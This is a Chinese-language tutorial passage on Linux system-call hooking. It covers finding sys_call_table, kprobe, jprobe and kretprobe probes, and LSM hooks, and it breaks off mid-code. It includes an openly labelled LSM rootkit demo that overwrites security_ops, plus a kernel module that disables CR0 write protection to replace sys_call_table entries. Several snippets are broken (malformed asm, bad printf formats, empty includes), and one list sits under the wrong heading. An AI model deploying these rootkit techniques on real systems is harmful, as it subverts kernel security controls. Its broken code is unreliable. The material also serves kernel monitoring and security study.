模拟出一个`call *sys_call_table(,%eax,4)`，然后看其机器码，然后在`system_call`的附近基于这个特征进行寻找

```c
#include <stdio.h>

void fun1()
{
        printf("fun1/n");
}

void fun2()
{
        printf("fun2/n");
}

unsigned int sys_call_table[2] = {fun1, fun2};

int main(int argc, char **argv)
{
        asm("call *sys_call_table(%eax,4");
}
```

编译  

```
gcc test.c -o test  
```

objdump进行dump  

```
objdump -D ./test | grep sys_call_table
```

2. 通过/boot/System.map-2.6.32-358.el6.i686文件查找

```c
cd /bootgrep sys_call_table System.map-2.6.32-358.el6.i686
```

3. 通过读取/dev/kmem虚拟内存全镜像设备文件获得`sys_call_table`地址

Linux下/dev/mem和/dev/kmem的区别：

1. /dev/mem: 物理内存的全镜像。可以用来访问物理内存。比如: 1) X用来访问显卡的物理内存， 2)
嵌入式中访问GPIO。用法一般就是open，然后mmap，接着可以使用map之后的地址来访问物理内存。这其实就是实现用户空间驱动的一种方法。 2.
/dev/kmem: kernel看到的虚拟内存的全镜像。可以用来: 1) 访问kernel的内容，查看kernel的变量， 2) 用作rootkit之类的

code

```c
#include <stdio.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdlib.h>

int kfd; 
struct
{
    unsigned short limit;
    unsigned int base;
} __attribute__ ((packed)) idtr;

struct
{
    unsigned short off1;
    unsigned short sel;
    unsigned char none, flags;
    unsigned short off2;
} __attribute__ ((packed)) idt;

int readkmem (unsigned char *mem,  unsigned off,  int bytes)
{
    if (lseek64 (kfd, (unsigned long long) off,  SEEK_SET) != off)
    {
        return -1;
    } 
    if (read (kfd, mem, bytes) != bytes) 
    {
        return -1;
    } 
}

int main (void)
{
    unsigned long sct_off;
    unsigned long sct;
    unsigned char *p, code[255];
    int i; 
    /* request IDT and fill struct */ 

    asm ("sidt %0":"=m" (idtr));

    if ((kfd = open ("/dev/kmem", O_RDONLY)) == -1)
    {
        perror("open");
        exit(-1);
    } 
    if (readkmem ((unsigned char *)&idt, idtr.base + 8 * 0x80, sizeof (idt)) == -1)
    {
        printf("Failed to read from /dev/kmem\n");
        exit(-1);
    } 
    
    sct_off = (idt.off2 << 16) | idt.off1; 
    
    if (readkmem (code, sct_off, 0x100) == -1)
    {
        printf("Failed to read from /dev/kmem\n");
        exit(-1);
    }

    /* find the code sequence that calls SCT */ 

    sct = 0;
    for (i = 0; i < 255; i++)
    {
        if (code[i] == 0xff && code[i+1] == 0x14 &&  code[i+2] == 0x85) 
        {
            sct = code[i+3] + (code[i+4] << 8) +  (code[i+5] << 16) + (code[i+6] << 24);
        }
    }
    if (sct)
    {
        printf ("sys_call_table: 0x%x\n", sct);
    }
    
    close (kfd);
}
```

4. 通过函数特征码循环搜索获取`sys_call_table`地址 (64 bit)

```c
unsigned long **find_sys_call_table() 
{ 
    unsigned long ptr;
    unsigned long *p;

    for (ptr = (unsigned long)sys_close; ptr < (unsigned long)&loops_per_jiffy; ptr += sizeof(void *)) 
    {    
        p = (unsigned long *)ptr;

        if (p[__NR_close] == (unsigned long)sys_close) 
    {
            printk(KERN_DEBUG "Found the sys_call_table!!!\n");
            return (unsigned long **)p;
        }
    }
    
    return NULL;
}
```

要特别注意的是代码中进行函数地址搜索的代码：`if (p[__NR_close] == (unsigned long)sys_close)`

在64bit Linux下，函数的地址是8字节的，所以要使用unsigned long

我们可以在linux下执行以下两条指令

```
grep sys_close System.map-2.6.32-358.el6.i686
grep loops_per_jiffy System.map-2.6.32-358.el6.i686
```



可以看到，系统调用表`sys_call_table`中的函数地址都落在这个地址区间中，因此我们可以使用loop搜索的方法去获取`sys_call_table`的基地址

5. 通过kprobe方式动态获取`kallsyms_lookup_name`，然后利用`kallsyms_lookup_name`获取`sys_call_table`的地址

通过kprobe的函数hook挂钩机制，可以获取内核中任意函数的入口地址，我们可以先获取`"kallsyms_lookup_name"`函数的入口地址

```c
//get symbol name by  "kprobe.addr"
//when register a kprobe on succefully return,the structure of kprobe save the symbol address at "kprobe.addr"
//just return this value
static void* aquire_symbol_by_kprobe(char* symbol_name)
{
    void *symbol_addr=NULL;
    struct kprobe kp;

    do
    {
       memset(&kp,0,sizeof(kp));
       kp.symbol_name=symbol_name;
       kp.pre_handler=kprobe_pre;
       if(register_kprobe(&kp)!=0)
       {
            break;
       }
       //this is the address of  "symbol_name"
       symbol_addr=(void*)kp.addr;

       //now kprobe is not used any more,so unregister it
       unregister_kprobe(&kp);

    }while(false);

    return symbol_addr;
}

//调用之
tmp_lookup_func = aquire_symbol_by_kprobe("kallsyms_lookup_name");
```

`kallsyms_lookup_name()`可以用于获取内核导出符号表中的符号地址，而`sys_call_table`的地址也存在于内核导出符号表中，我么可以使用`kallsyms_lookup_name()`获取到`sys_call_table`的基地址

```c
(void**)kallsyms_lookup_name("sys_call_table");
```

### 4: 利用Linux内核机制kprobe机制(kprobes, jprobe和kretprobe)进行系统调用Hook

kprobe简介

kprobe是一个动态地收集调试和性能信息的工具，它从Dprobe项目派生而来，它几乎可以跟踪任何函数或被执行的指令以及一些异步事件。它的基本工作机制是:

1. 用户指定一个探测点，并把一个用户定义的处理函数关联到该探测点

2. 在注册探测点的时候，对被探测函数的指令码进行替换，替换为int 3的指令码

3. 在执行int 3的异常执行中，通过通知链的方式调用kprobe的异常处理函数

4. 在kprobe的异常出来函数中，判断是否存在pre_handler钩子，存在则执行

5. 执行完后，准备进入单步调试，通过设置EFLAGS中的TF标志位，并且把异常返回的地址修改为保存的原指令码

6. 代码返回，执行原有指令，执行结束后触发单步异常

7. 在单步异常的处理中，清除单步标志，执行post_handler流程，并最终返回

从原理上来说，kprobe的这种机制属于系统提供的"回调订阅"，和netfilter是类似的，linux内核通过在某些代码执行流程中给出回调函数接口供程序员订阅，内核开发人员可以在这些回调点上注册(订阅)自定义的处理函数，同时还可以获取到相应的状态信息，方便进行过滤、分析

kprobe实现了三种类型的探测点:

1. kprobes kprobes是可以被插入到内核的任何指令位置的探测点，kprobe允许在同一地址注册多个kprobes，但是不能同时在该地址上有多个jprobes

2. jprobe jprobe则只能被插入到一个内核函数的入口

3. kretprobe(也叫返回探测点) 而kretprobe则是在指定的内核函数返回时才被执行

在本文中，我们可以使用kprobe的程序实现作一个内核模块，模块的初始化函数来负责安装探测点，退出函数卸载那些被安装的探测点。kprobe提供了接口函数(APIs)来安装或卸载探测点。目前kprobe支持如下架构：i386、x86_64、ppc64、ia64(不支持对slot1指令的探测)、sparc64(返回探测还没有实现)

kprobe实现原理

值得注意的是，这位说的kprobe指的是kprobe机制，它由kprobes, jprobe和kretprobe三种技术共同组成

1. kprobes

```
/*
kprobes执行流程
*/
1. 当安装一个kprobes探测点时，kprobe首先备份被探测的指令
2. 使用断点指令(int 3指令)来取代被探测指令的头一个或几个字节(这点和OD很像)
3. CPU执行到探测点时，将因运行断点指令而执行trap操作，那将导致保存CPU的寄存器，调用相应的trap处理函数
4. trap处理函数将调用相应的notifier_call_chain(内核中一种异步工作机制)中注册的所有notifier函数
5. kprobe正是通过向trap对应的notifier_call_chain注册关联到探测点的处理函数来实现探测处理的
6. 当kprobe注册的notifier被执行时
    6.1 它首先执行关联到探测点的pre_handler函数，并把相应的kprobe struct和保存的寄存器作为该函数的参数
    6.2 然后，kprobe单步执行被探测指令的备份(原始函数)
    6.3 最后，kprobe执行post_handler
7. 等所有这些运行完毕后，紧跟在被探测指令后的指令流将被正常执行
```

在使用kprobes技术进行编程的时候，基本代码框架如下

```c
#include linux/kprobes.h
...
/*
探测点处理函数pre_handler的原型如下
用户必须按照该原型参数格式定义自己的pre_handler(函数名可以任意定)
    1) 参数p
    就是指向该处理函数关联到的kprobes探测点的指针，可以在该函数内部引用该结构的任何字段，就如同在使用调用register_kprobe时传递的那个参数
    2) 参数regs
    指向运行到探测点时保存的寄存器内容
kprobe负责在调用pre_handler时会自动传递这些参数，用户不必关心，只是要知道在该函数内你能访问这些内容
*/
int pre_handler(struct kprobe *p, struct pt_regs *regs);

/*
探测点处理函数post_handler的原型如下
    1) 参数p
    与pre_handler相同
    2) 参数regs
    与pre_handler相同
    3) 参数flags
    最后一个参数flags总是0。
*/
void post_handler(struct kprobe *p, struct pt_regs *regs, unsigned long flags);

/*
错误处理函数fault_handler的原刑如下
    1) 参数p
    与pre_handler相同
    2) 参数regs
    与pre_handler相同
    3) trapnr
    trapnr是与错误处理相关的架构依赖的trap号(例如，对于i386，通常的保护错误是13，而页失效错误是14)
如果成功地处理了异常，它应当返回1
*/
int fault_handler(struct kprobe *p, struct pt_regs *regs, int trapnr);

/*
值得注意的是: 在注册kprobes之前，程序员必须先设置好struct kprobe的这些字段(包括各个回调函数)
注册一个kprobes类型的探测点，其函数原型为
params: struct kprobe类型的指针
struct kprobe 
{
    struct hlist_node hlist; 
    /* list of kprobes for multi-handler support */
    struct list_head list; 
    /*count the number of times this probe was temporarily disarmed */
    unsigned long nmissed;  

    /* location of the probe point */
    kprobe_opcode_t *addr; 

    /* Allow user to indicate symbol name of the probe point(如果在不知道需要监控的系统调用的地址的情况下，可以直接通过内核导出符号连接指定监控点)*/
    const char *symbol_name;
    /* Offset into the symbol */
    unsigned int offset;

    /* Called before addr is executed. */
    kprobe_pre_handler_t pre_handler;

    /* Called after addr is executed, unless... */
    kprobe_post_handler_t post_handler;

    /*
    called if executing addr causes a fault (eg. page fault).
    Return 1 if it handled fault, otherwise kernel will see it.
    */
    kprobe_fault_handler_t fault_handler;

    /*
    called if breakpoint trap occurs in probe handler.
    Return 1 if it handled break, otherwise kernel will see it.
    */
    kprobe_break_handler_t break_handler;

    /* Saved opcode (which has been replaced with breakpoint) */
    kprobe_opcode_t opcode;
    /* copy of the original instruction */
    struct arch_specific_insn ainsn;
    /*
    Indicates various status flags.
    Protected by kprobe_mutex after this kprobe is registered.
    */
    u32 flags;
};
*/
int register_kprobe(struct kprobe *kp);
```

整个编码顺序为：

```
声明pre_handler()->声明post_handler()->声明fault_handler()->设置struct kprobe->调用register_kprobe()进行内核回调机制注册
```

注册了回调函数之后，我们就相当于劫持了指定的内核系统调用函数，则新的系统调用执行流程为:

```
pre_handler->被Hook原函数->post_handler
```

1. jprobe

值得注意的是，jprobe是建立在kprobes的基础上的监控机制，jprobe对kprobes的代码进行了封装，简化了编程的同时，还将接口变得更加"干净"，我们在jprobe的回调处理函数中看到的所有参数都和原始内核系统调用的原始函数的参数一模一样，从某种程序上来说，jprobe比kprobes更加"好用"(前提是你仅仅想hook系统调用)

```c
/*
jprobe执行流程
*/
1. jprobe通过注册kprobes在被探测函数入口的来实现，它能无缝地访问被探测函数的参数
2. jprobe处理函数应当和被探测函数有同样的原型，而且该处理函数在函数末必须调用kprobe提供的函数jprobe_return()
3. 当执行到该探测点时，kprobe备份CPU寄存器和栈的一些部分，然后修改指令寄存器指向jprobe处理函数
4. 当执行该jprobe处理函数时，寄存器和栈内容与执行真正的被探测函数一模一样，因此它不需要任何特别的处理就能访问函数参数， 在该处理函数执行到最后
时，它调用jprobe_return()，那导致寄存器和栈恢复到执行探测点时的状态，因此被探测函数能被正常运行
5. 需要注意，被探测函数的参数可能通过栈传递，也可能通过寄存器传递，但是jprobe对于两种情况都能工作，因为它既备份了栈，又备份了寄存器，当然，前提是jprobe处理函数原型必须与被探测函数完全一样
```

在使用jprobe技术进行编程的时候，基本代码框架如下

```c
#include linux/kprobes.h
...
/*
..
声明entry中指定的探测点的处理回调函数
该处理函数的参数表和返回类型应当与被探测函数完全相同(重要)

声明kp中指定的错误处理函数
..
*/

/*
register_jprobe()函数用于注册jprobes类型的探测点，它的原型如下：
struct jprobe 
{ 
    /*    
    对于jprobe技术来说，我们在struct kprobe里面设置：
　　　　1) kp.addr: 指定探测点的位置(即你要hook的点)
       2) kp.symbol_name: 直接指定探测点的导出名
       3) kp.fault_handler: 指定监控出错时的处理函数
    */
    struct kprobe kp;
    
    /* 
    probe handling code to jump to 
    entry指定探测点的处理回调函数
        1) 该处理函数的参数表和返回类型应当与被探测函数完全相同
        2) 而且它必须正好在返回前调用jprobe_return()
    */
    kprobe_opcode_t *entry; 
};
*/
int register_jprobe(struct jprobe *jp);
```

整个编码顺序为：

声明注册回调函数()->声明出错处理函数()->设置struct jprobe->调用`register_jprobe()`进行内核回调机制注册

注册了回调函数之后，我们就相当于劫持了指定的内核系统调用函数，则新的系统调用执行流程为:

注册回调劫持函数->`jprobe_return()`恢复现场->被Hook原函数

1. kretprobe

```c
/*
kretprobe执行流程
*/
1. kretprobe也使用了kprobes来实现2
2. 当用户调用register_kretprobe()时，kprobe在被探测函数的入口建立了一个探测点
3. 当执行到探测点时，kprobe保存了被探测函数的返回地址并取代返回地址为一个trampoline的地址，kprobe在初始化时定义了该trampoline并且为该
trampoline注册了一个kprobe
4. 当被探测函数执行它的返回指令时，控制传递到该trampoline，因此kprobe已经注册的对应于trampoline的处理函数将被执行，而该处理函数会调用用户
关联到该kretprobe上的处理函数
5. 处理完毕后，设置指令寄存器指向已经备份的函数返回地址，因而原来的函数返回被正常执行。
6. 被探测函数的返回地址保存在类型为kretprobe_instance的变量中，结构kretprobe的maxactive字段指定了被探测函数可以被同时探测的实例数
7. 函数register_kretprobe()将预分配指定数量的kretprobe_instance:
    7.1 如果被探测函数是非递归的并且调用时已经保持了自旋锁(spinlock)，那么maxactive为1就足够了
    7.2 如果被探测函数是非递归的且运行时是抢占失效的，那么maxactive为NR_CPUS就可以了
    7.3 如果maxactive被设置为小于等于0, 它被设置到缺省值(如果抢占使能， 即配置了 CONFIG_PREEMPT，缺省值为10和2*NR_CPUS中的最大值，否则
缺省值为NR_CPUS)
    7.4 如果maxactive被设置的太小了，一些探测点的执行可能被丢失，但是不影响系统的正常运行，在结构kretprobe中nmissed字段将记录被丢失的探测
点执行数，它在返回探测点被注册时设置为0，每次当执行探测函数而没有kretprobe_instance可用时，它就加1
```

在使用kretprobe技术进行编程的时候，基本代码框架如下

```c
#include linux/kprobes.h
..
/*
kretprobe_handler是kretprobe机制下的回调处理函数，它的原型如下：
param:
    1) kretprobe_instance ri
    指向类型为struct kretprobe_instance的变量
    struct kretprobe_instance 
    {
        struct hlist_node hlist;
        struct kretprobe *rp;        //指向相应的kretprobe_instance变量(就是我们在register_kretprobe时传入的参数) 
        kprobe_opcode_t *ret_addr;    //返回地址
        struct task_struct *task;    //指向相应的task_struct
        char data[0];
    }; 
    结构struct kretprobe_instance是注册函数register_kretprobe根据用户指定的maxactive值来分配的，kprobe负责在调用kretprobe处理函数时传递相应的kretprobe_instance
    2) 参数regs
    指向保存的寄存器  
*/
int kretprobe_handler(struct kretprobe_instance *ri, struct pt_regs *regs);

/*
..
声明错误处理函数
..
*/

/*
该函数用于注册类型为kretprobes的探测点，它的原型如下：
param:
    1) struct kretprobe rp
    struct kretprobe 
    {
        /*
        kretprobe同样是复用了kprobes的机制
        和jprobe一样，一般情况下，我们需要在kp中设置:
            1) kp.addr: 指定探测点的位置(即你要hook的点)
            2) kp.symbol_name: 直接指定探测点的导出名
            3) kp.fault_handler: 指定监控出错时的处理函数
        */
        struct kprobe kp; 

        //注册的回调函数，handler指定探测点的处理函数
        kretprobe_handler_t handler;
        //注册的预处理回调函数，类似于kprobes中的pre_handler()
        kretprobe_handler_t entry_handler;  

        //maxactive指定可以同时运行的最大处理函数实例数，它应当被恰当设置，否则可能丢失探测点的某些运行
        int maxactive;    
        int nmissed;
        //指示kretprobe需要为回调监控预留多少内存空间
        size_t data_size;
        struct hlist_head free_instances;
        raw_spinlock_t lock;
    }; 
该注册函数在地址rp->kp.addr注册一个kretprobe类型的探测点，当被探测函数返回时，rp->handler会被调用
如果成功，它返回0，否则返回负的错误码
*/
int register_kretprobe(struct kretprobe *rp);
```

整个编码顺序为：

`声明kretprobe_handler()->声明出错处理函数()->设置struct kretprobe->调用register_kretprobe()进行内核回调机制注册`

注册了回调函数之后，我们就相当于劫持了指定的内核系统调用函数，则新的系统调用执行流程为:

被Hook原函数会照常先执行->当原始函数的返回点位置会执行一次我们注册的kretprobe_handler()->恢复现场继续原始的系统调用

了解了kprobe的基本原理之后，我们要回到我们本文的主题，系统调用的Hook上来，由于kprobe是linux提供的稳定的回调注册机制，linux天生就稳定地支持在我们指定的某个函数的执行流上进行注册回调，我们很方便地使用它来进行系统调用(例如`sys_execv()`、网络连接等)的执行Hook，从而劫持linux系统的系统调用流程，为下一步的恶意入侵行为分析作准备

下面我们分别学习kprobe的3种机制: kprobes、jprobe、kretprobe

kprobes编程示例

`do_fork.c`

```c
/*
 * * You will see the trace data in /var/log/messages and on the console
 * * whenever do_fork() is invoked to create a new process.
 * */

#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/kprobes.h>

//定义要Hook的函数，本例中do_fork
static struct kprobe kp = 
{
    .symbol_name = "do_fork",
};

static int handler_pre(struct kprobe *p, struct pt_regs *regs)
{
    struct thread_info *thread = current_thread_info();

    printk(KERN_INFO "pre-handler thread info: flags = %x, status = %d, cpu = %d, task->pid = %d\n",
    thread->flags, thread->status, thread->cpu, thread->task->pid);

    return 0;
}

static void handler_post(struct kprobe *p, struct pt_regs *regs, unsigned long flags)
{  
    struct thread_info *thread = current_thread_info();

    printk(KERN_INFO "post-handler thread info: flags = %x, status = %d, cpu = %d, task->pid = %d\n",
    thread->flags, thread->status, thread->cpu, thread->task->pid);
}

static int handler_fault(struct kprobe *p, struct pt_regs *regs, int trapnr)
{
    printk(KERN_INFO "fault_handler: p->addr = 0x%p, trap #%dn",
    p->addr, trapnr);
    return 0;
}

/*
内核模块加载初始化，这个过程和windows下的内核驱动注册分发例程很类似
*/
static int __init kprobe_init(void)
{
    int ret;
    kp.pre_handler = handler_pre;
    kp.post_handler = handler_post;
    kp.fault_handler = handler_fault;

    ret = register_kprobe(&kp);
    if (ret < 0) 
    {
        printk(KERN_INFO "register_kprobe failed, returned %d\n", ret);
        return ret;
    }
    printk(KERN_INFO "Planted kprobe at %p\n", kp.addr);
    return 0;
}

static void __exit kprobe_exit(void)
{
    unregister_kprobe(&kp);
    printk(KERN_INFO "kprobe at %p unregistered\n", kp.addr);
}

module_init(kprobe_init)
module_exit(kprobe_exit)
MODULE_LICENSE("GPL");
```

Makefile

```
obj-m := do_fork.o
```

编译:

```
make -C /usr/src/kernels/2.6.32-358.el6.i686 M=$(pwd) modules
```

加载内核模块:

```
insmod do_fork.ko
```

测试效果：

dmesg| tail



cat /proc/kallsyms | grep do_fork



`do_fork`的地址与kprobe注册的地址一致，可见，在kprobe调试模块在内核停留期间，我们编写的内核监控模块劫持并记录了系统fork出了新的进程信息

### 5: LSM(linux security module) Security钩子技术(linux原生机制)

Linux安全模块(LSM)是Linux内核的一个轻量级通用访问控制框架。它使得各种不同的安全访问控制模型能够以Linux可加载内核模块的形式实现出来，用户可以根据其需求选择适合的安全模块加载到Linux内核中，从而大大提高了Linux安全访问控制机制的灵活性和易用性

目前已经有很多著名的增强访问控制系统移植到Linux安全模块(LSM)上实现，包括

```
1. 真正的通用，当使用一个不同的安全模型的时候，只需要加载一个不同的内核模块
2. 概念上简单，对Linux内核影响最小，高效，并且能够支持现存的POSIX.1e capabilities逻辑，作为一个可选的安全模块
3. 能够允许他们以可加载内核模块的形式重新实现其安全功能，并且不会在安全性方面带来明显的损失，也不会带来额外的系统开销
```

Linux安全模块(LSM)有如下特点

          *   *   * 
    1. 真正的通用，当使用一个不同的安全模型的时候，只需要加载一个不同的内核模块2. 概念上简单，对Linux内核影响最小，高效，并且能够支持现存的POSIX.1e capabilities逻辑，作为一个可选的安全模块3. 能够允许他们以可加载内核模块的形式重新实现其安全功能，并且不会在安全性方面带来明显的损失，也不会带来额外的系统开销

为了满足这些设计目标，Linux安全模块(LSM)采用了通过在内核源代码中放置钩子的方法，来"仲裁"对内核内部对象进行的访问，这些对象有

    1. 任务  
    2. inode结点  
    3. 打开的文件  
    4. 用户进程执行系统调用  
    5. api的监控  
    6. 进程/进程间通讯  
    7. 网络系统  
    ..

在LSM机制，Linux执行系统调用的流程如下

```
1. 用户进程执行系统调用

2. 首先遍历Linux内核原有的逻辑找到并分配资源，进行错误检查，并经过经典的UNIX自主访问控制

3. 恰好就在Linux内核试图对内部对象进行访问之前，一个Linux安全模块(LSM)的钩子对安全模块所必须提供的函数进行一个调用
(一个Hook的过程)

4. 从而对安全模块提出这样的问题"是否允许访问执行?"

5. 安全模块根据其安全策略进行决策，作出回答：允许，或者拒绝进而返回一个错误
值得注意的是:
Linux安全模块(LSM)目前作为一个Linux内核补丁的形式实现。其本身不提供任何具体的安全策略，而是提供了一个通用的基础体系给安全模块，由安全模块来实现具体的安全策略(即安全控制的决策算法由程序员自己来指定)

6. 通过LSM决策流程之后，原始的系统调用程序流将继续执行
```

LSM主要在五个方面对Linux内核进行了修改

```
1. 在特定的内核数据结构中加入了安全域
安全域是一个void*类型的指针，它使得安全模块把安全信息和内核内部对象联系起来。下面列出被修改加入了安全域的内核数据结构，以及各自所代表的内核内部对象：
    1) task_struct结构: 任务(进程)
    2) linux_binprm结构: 程序
    3) super_block结构: 文件系统
    4) inode结构: 管道、文件、Socket套接字
    5) file结构:打开的文件
    6) sk_buff结构: 网络缓冲区(包)
    7) net_device结构: 网络设备
    8) kern_ipc_perm结构: Semaphore信号、共享内存段、消息队列
    9) msg_msg: 单个的消息
2. 在内核源代码中不同的关键点插入了对安全钩子函数的调用
Linux安全模块(LSM)提供了两类对安全钩子函数的调用
    1) 管理内核对象的安全域
    2) 仲裁对这些内核对象的访问
对安全钩子函数的调用通过钩子来实现，钩子是全局表security_ops中的函数指针，这个全局表的类型是security_operations结构
\linux-2.6.32.63\include\linux\security.h
关于struct security_operations的相关知识，请参阅另一篇文章
http://i.cnblogs.com/EditPosts.aspx?postid=3865490
(搜索0x1: struct security_operations)
3. 加入了一个通用的安全系统调用
Linux安全模块(LSM)提供了一个通用的安全系统调用，允许安全模块为安全相关的应用编写新的系统调用，其风格类似于原有的Linux系统调用socketcall()，是一个多路的系统调用
这个系统调用为security()，其参数为(unsigned int id, unsigned int call, unsigned long *args)
    1) id
    代表模块描述符
    2) call
    代表调用描述符
    3) args
    代表参数列表
这个系统调用缺省的提供了一个sys_security()入口函数：其简单的以参数调用sys_security()钩子函数。如果安全模块不提供新的系统调用，就可以定义返回-ENOSYS的sys_security()钩子函数，但是大多数安全模块都可以自己
定义这个系统调用的实现
4. 提供了函数允许内核模块注册为安全模块或者注销
在内核引导的过程中，Linux安全模块(LSM)框架被初始化为一系列的虚拟钩子函数，以实现传统的UNIX超级用户机制
    1) register_security()
    当加载一个安全模块时，必须使用register_security()函数向Linux安全模块(LSM)框架注册这个安全模块
        1.1) 这个函数将设置全局表security_ops，使其指向这个安全模块的钩子函数指针
        1.2) 从而使内核向这个安全模块询问访问控制决策 
    
    2) unregister_security()
    一旦一个安全模块被加载，就成为系统的安全策略决策中心，而不会被后面的register_security()函数覆盖，直到这个安全模块被使用unregister_security()函数向框架注销：
        2.1) 这简单的将钩子函数替换为缺省值
        2.2) 系统回到UNIX超级用户机制  
5. 将capabilities逻辑的大部分移植为一个可选的安全模块
Linux内核现在对POSIX.1e capabilities的一个子集提供支持。Linux安全模块(LSM)设计的一个需求就是把这个功能移植为一个可选的安全模块。POSIX.1e capabilities提供了划分传统超级用户特权并赋给特定的进程的功能
```

code

```
#include <linux/security.h>
#include <linux/sysctl.h>
#include <linux/ptrace.h>
#include <linux/prctl.h>
#include <linux/ratelimit.h>
#include <linux/workqueue.h>
#include <linux/file.h>
#include <linux/fs.h>
#include <linux/dcache.h>
#include <linux/path.h>

int test_file_permission(struct file *file, int mask)
{
    char *name = file->f_path.dentry->d_name.name;
    if(!strcmp(name, "test.txt"))
    {
        file->f_flags |= O_RDONLY;
        printk("you can have your control code here!\n");
    }
    return 0;
} 

/*
一般的做法是：定义你自己的struct security_operations，实现你自己的hook函数，具体有哪些hook函数可以查询
include/linux/security.h文件 
*/
static struct security_operations test_security_ops = 
{
        .name =                 "test", 
        .file_permission =      test_file_permission,
};

static __init int test_init(void)
{
        printk("enter test init!\n"); 
        printk(KERN_INFO "Test: becoming......\n")

    //调用register_security来用你的test_security_ops初始化全局的security_ops指针
        if (register_security(&test_security_ops))
    {
        panic("Test: kernel registration failed.\n");
    }  
        return 0;
} 

security_initcall(test_init);
```

将该文件以模块的形式放到security/下编译进内核，启用新的内核后，当你操作文件test.txt时，通过dmesg命令就能再终端看到"you can have your control code here!"

### 6: LSM Function Replace Hook劫持技术

LSM模块在所有验证函数中都调用了`security_ops`的函数指针

如`sys_mmap`函数：

```c
..
error = security_file_mmap(file, reqprot, prot, flags);
...
static inline int security_file_mmap (struct file *file, unsigned long reqprot, unsigned long prot, unsigned long flags)
{
    return security_ops->file_mmap (file, reqprot, prot, flags);
} 
```

这样， `security_ops`被定义为一个全局变量的话，rootkit很容易就可以将`security_ops`变量导出，然后替换为自己的fake函数，LSM框架很容易就被摧毁掉

code

```c
#include
#include
#include
#include
#include
#include
#include

MODULE_LICENSE("GPL");
MODULE_AUTHOR("wzt");

extern struct security_operations *security_ops;
struct security_operations *fake_security_ops;

int fake_file_mmap(struct file *file, unsigned long reqprot, unsigned long prot, unsigned long flags)
{
    printk("in fake_file_mmap.\n"); 
    return 0;
}

static int rootkit_init(void)
{
    printk("loading LSM rootkit demo module.\n");
    fake_security_ops = security_ops;
    printk("orig file_mmap address: 0xx, 0xx\n", (unsigned int)fake_security_ops->file_mmap, (unsigned int)security_ops->file_mmap);

    fake_security_ops->file_mmap = fake_file_mmap;
    security_ops = fake_security_ops;
    printk("new file_mmap address: 0xx, 0xx\n", (unsigned int)fake_security_ops->file_mmap, (unsigned int)security_ops->file_mmap);
        
    security_ops->file_mmap(NULL, 0, 0, 0);

    return 0;
}

static void rootkit_exit(void)
{
    printk("unload LSM rootkit demo module.\n"); 
}

module_init(rootkit_init);
module_exit(rootkit_exit);
```

### 7: int 80中断劫持技术

传统的hook劫持方法通过替换`sys_call_table[]`数组中的函数地址,来截获系统调用，但是如果要监控所有的API, 那么需要重新编写所有API的替代函数(需要为每一个Hook单独编写一个`hooded_handler`函数)，而linux kernel 2.6.18中大概有300多个系统调用函数

为了解决这个问题，我们可以通过这样一种思维模式模式去思考

```
1. 如果你需要劫持的控制流是"多路"的，除了分别对"每一路"进行hook之外，还可以将hook点"上移"
2. 即找到所有系统调用的总的调度的入口点，在一个控制流相对较集中的节点位置部署hook逻辑
3. 这也是一种底层统一防御的思想(在cms的漏洞防御中也可以得到应用)
```

### 8: 利用从PAGE_OFFSET起始位置搜索特征码劫持system_call_sys_call_table进行系统调用hook

和通过int 0x80中断获取`sys_call_table`的方法类似，这种技术的区别是获取`sys_call_table`的方式不同，而针对`sys_call_table`进行replace hook才是关键点

```c
#include <linux/sched.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/fs.h>
#include <linux/file.h>
#include <linux/kallsyms.h>
#include <linux/syscalls.h>
#include <asm/unistd.h>

MODULE_AUTHOR("test");
MODULE_DESCRIPTION("test");
MODULE_LICENSE("GPL");

typedef asmlinkage int (*mkdir_t)(const char* name);
typedef asmlinkage int (*open_t)(const char *filename, int flags, int mode);
void** sys_call_table = NULL;
asmlinkage open_t old_open_func=NULL;
asmlinkage mkdir_t  old_mkdir_func=NULL;

static int wpoff_cr0(void)
{
    unsigned int cr0 = 0;
    unsigned int ret;

    asm volatile ("movl %%cr0, %%eax":"=a"(cr0)); //汇编代码，用于取出CR0寄存器的值
    ret = cr0;
    cr0 &= 0xfffeffff;                            
    asm volatile ("movl %%eax, %%cr0": :"a"(cr0));//汇编代码，将修改后的CR0值写入CR0寄存器
    return ret;               
}

/*改回原CR0寄存器的值*/
static void set_cr0(int val)
{
    asm volatile ("movl %%eax, %%cr0": :"a"(val)); 
    return;
}

asmlinkage int fake_sys_mkdir(const char *name)
{
    printk("sys_mkdir(%s)\n",name);
    
    if(old_mkdir_func)
    {
        if(strstr(name,"test_zr")) 
        {
            return -1;
        }
        else
        {
            return old_mkdir_func(name);
        }
    }
    return -1;
}

asmlinkage long fake_sys_open(const char *filename, int flags, int mode)
{
    printk("sys_open(%s)\n",filename);
    if(old_open_func)
    {
        if(strstr(filename,"test_zr")) 
        {
            return -1;
        }
        else
        {
            return old_open_func(filename,flags,mode);
        }
    }
    return -1;
}

static void* aquire_sys_call_table(void* start_addr)
{
    unsigned long int offset = 0;

    unsigned long int end = VMALLOC_START < ULLONG_MAX ? VMALLOC_START : ULLONG_MAX;

    void *table_addr=NULL;

    void** tmp_table=NULL;
       
    *(void**)&offset = start_addr;

    while (offset < end) 
        {

        tmp_table=(void**)offset;

        if (tmp_table[__NR_close] == (void*)sys_close) 
        {
